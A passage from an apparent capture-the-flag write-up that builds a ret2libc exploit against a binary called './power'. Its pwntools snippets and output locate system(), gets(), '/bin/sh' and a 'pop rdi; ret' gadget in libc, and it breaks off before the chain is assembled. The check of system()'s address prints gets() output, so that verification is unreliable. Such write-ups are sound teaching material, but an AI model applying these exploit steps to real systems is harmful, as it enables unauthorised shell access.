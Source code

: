 ```
[*] Address of system() in ./power: 0x7f45fe3af390
[*] Address of system() in libc.so.6: 0x45390

[*] Address of libc.so.6 base in ./power: 0x7f45fe36a000
```
  
Let's check if `0x45390` is really the address of `__libc_system`:
```
solomonbstoner@swjsUbuntu:~$ objdump -d -M intel libc.so.6 | grep "_gets"
000000000006ed80 <_IO_gets@@GLIBC_2.2.5>:
   6ed98:	75 61                	jne    6edfb <_IO_gets@@GLIBC_2.2.5+0x7b>
```
Yes it is!
3. Calculating the relocated address of all other ROP gadgets.
With the relocated base address of `libc.so.6`, I am able to find the relocated address of all other ROP gadgets in `libc.so.6`. For instance, to find the relocated address of `_IO_gets`, this is my Python script below
```
[...]
addr_of_gets_in_libc = libc.symbols['_IO_gets']
log.info("Address of gets() in libc.so.6: {}".format(hex(addr_of_gets_in_libc)))
addr_of_gets_in_power = addr_of_libc_in_power + addr_of_gets_in_libc
log.info("Address of gets() in ./power: {}".format(hex(addr_of_gets_in_power)))
[...]
```
Upon running, this snippet produces the following output:
```
[*] Address of gets() in libc.so.6: 0x6ed80
[*] Address of gets() in ./power: 0x7f45fe3d8d80
```
Let's check if `0x6ed80` is really the address of `_IO_gets`:
```
solomonbstoner@swjsUbuntu:~$ objdump -d -M intel libc.so.6 | grep "_gets"
000000000006ed80 <_IO_gets@@GLIBC_2.2.5>:
   6ed98:	75 61                	jne    6edfb <_IO_gets@@GLIBC_2.2.5+0x7b>
```
Yes it is!

The same concept is used to find the relocated address of the string '/bin/sh' and ROP gadget 'pop rdi; ret;'
```
addr_of_binsh_in_libc = libc.search('/bin/sh').next()	#find address of string '/bin/sh'
log.info("Address of /bin/sh in libc.so.6: {}".format(hex(addr_of_binsh_in_libc)))
addr_of_binsh_in_power = addr_of_libc_in_power + addr_of_binsh_in_libc
log.info("Address of /bin/sh in ./power: {}".format(hex(addr_of_binsh_in_power)))

addr_of_poprdi_in_libc = libc.search('\x5F\xC3').next() #find address of ROP gadget 'pop rdi; ret'
log.info("Address of 'pop rdi; ret;' in libc.so.6: {}".format(hex(addr_of_poprdi_in_libc)))
addr_of_poprdi_in_power = addr_of_poprdi_in_libc + addr_of_libc_in_power
log.info("Address of 'pop rdi; ret;' in ./power: {}".format(hex(addr_of_poprdi_in_power)))
```
The snippet of code above produces the following output:
```
[*] Address of /bin/sh in libc.so.6: 0x18cd57
[*] Address of /bin/sh in ./power: 0x7f45fe4f6d57
[*] Address of 'pop rdi; ret;' in libc.so.6: 0x21102
[*] Address of 'pop rdi; ret;' in ./power: 0x7f45fe38b102
```
Actually, I wonder why there would be a string '/bin/sh' serving no purpose in the program, but the fact is there is.
```
solomonbstoner@swjsUbuntu:~$ strings libc.so.6 | grep "/bin/sh"
/bin/sh
```
4. Chaining the ROP gadgets
```
```